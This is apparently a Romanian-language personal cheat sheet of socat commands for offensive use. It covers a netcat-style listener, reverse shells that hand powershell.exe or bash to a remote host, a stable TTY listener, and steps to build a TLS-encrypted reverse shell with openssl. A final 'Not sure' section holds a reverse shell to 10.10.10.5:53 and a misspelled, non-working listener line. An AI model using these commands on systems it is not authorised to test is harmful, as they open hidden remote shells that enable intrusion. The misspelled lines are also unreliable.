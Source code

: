 Cel mai simplu ascultator: la fel ca si `nc -lvnp <port>`
```bash
socat TCP-L:<port> -
```
Pentru Windows:
```bash
socat TCP:<local_IP>:<local_port> EXEC:powershell.exe,pipes
```
Pentru Linux:
```bash
socat TCP:<local_IP>:<local_port> EXEC:"bash -li"
```
#### Cea mai stabil shell (only Linux)
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

## Shell criptat
1. Generam un certificat. Mai multe detali la [[openssl]]
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
2. Din cele 2 fisiere facem doar unul:
```bash
cat shell.key shell.crt > shell.pem 
```
3. Acum putem sa ascultam sessiunea noastra:
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
4. Pentru `reversh shell` folosim:
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```
## Not sure 
```bash
socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
```bash
socat OPENSLL-LISTENR:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

